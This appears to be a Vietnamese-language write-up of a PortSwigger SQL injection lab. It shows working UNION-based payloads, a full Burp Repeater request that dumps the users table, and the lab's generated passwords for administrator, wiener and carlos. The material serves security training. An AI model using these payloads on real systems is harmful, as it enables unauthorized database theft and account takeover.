





# Write-up: SQL injection UNION attack, retrieving data from other tables

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin trong DB có tên bảng : `users`, với tên cột: `username` và `password`

### Mục tiêu
Lấy được thông tin tài khoản `administrator` và login vào hệ thống.

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) để kích hoạt lỗi SQL:
  - **Kết quả**:xuất hiện lỗi SQL, xác nhận lỗ hổng
    

- Xác định số cột
    ```
    'UNION SELECT NULL,NULL,NULL--
    ```
    - **Kết quả**: xác nhận có 2 cột
        

- Xác định kiểu dữ liệu trả về mỗi cột
    ```
    'UNION SELECT 'a','a'--
    ```
    - **Kết quả**: xác nhận kiểu dữ liệu 2 cột là string
        


2. **Tạo Payload**

- Tạo payload kiểu tấn công UNION lấy dữ liệu user trong bảng `users`
    ```
    'UNION SELECT username,password FROM users--
    ```

3. **Khai thác(Exploitation)**
- Gửi payload qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+username,password+FROM+users-- HTTP/2
    ```
    - **Kết quả**: lấy được dữ liệu các user
        
    `administrator`:`ho7ptwoc3mzuyy8ycdzp`
    `wiener`:`olp8fd5ota5fqiqssgld`
    `carlos`:`gbprc9z3xaivmodk6948`

- Login bằng tài khoản `administrator` và hoành thành bài lab
    

### Bài học rút ra
- Sử dụng SQLi để lấy thông tin trong DB

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.